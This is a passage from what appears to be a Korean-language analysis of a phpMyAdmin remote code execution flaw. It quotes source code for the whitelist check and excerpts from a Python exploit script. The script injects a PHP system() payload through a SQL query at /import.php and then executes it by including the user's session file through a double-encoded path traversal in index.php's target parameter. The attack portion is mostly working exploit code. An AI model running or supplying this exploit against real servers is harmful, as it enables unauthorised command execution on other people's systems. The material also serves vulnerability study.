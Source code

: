             $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')
            );
            //4.
            if (in_array($_page, $whitelist)) {
                return true;
            }
                            [...]
    ------------------------------------------------------------------------
    class Core
    {
        public static $goto_whitelist = array(
                        [...]
            'db_sql.php',
                        [...]
        );
                        [...]
    }
    ```
 - excute query 부분에서 /import.php를 불러와 데이터 부분에 사용자가 사용할 페이로드(command)를 삽입하여 본문과 함께 POST 요청을 통해 sql쿼리 문을 실행하고 실행된 쿼리가 새로 생성된 사용자의 세션 파일에 포함되며 excute payload 부분에서 사용자의 PHP세션 파일을 불러오는 것으로 보인다.
    ```c
    if len(sys.argv) < 7:                      
    usage = """Usage: {} [ipaddr] [port] [path] [username] [password] [command]
        Example: {} 192.168.56.65 8080 /phpmyadmin username password whoami"""                   
    print(usage.format(sys.argv[0],sys.argv[0]))
    exit()
                        [...]
    # 3rd req: execute query
    url2 = url + "/import.php"
    # payload
    payload = '''select '<?php system("{}") ?>';'''.format(command)
    p = {'table':'', 'token': token, 'sql_query': payload }
    r = requests.post(url2, cookies = cookies, data = p)
    if r.status_code != 200:
    print("Query failed")
    exit()

    # 4th req: execute payload
    session_id = cookies.get_dict()['phpMyAdmin']
    url3 = url + "/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/sessions/sess_{}".format(session_id)
    r = requests.get(url3, cookies = cookies)
    if r.status_code != 200:
    print("Exploit failed")
    exit()
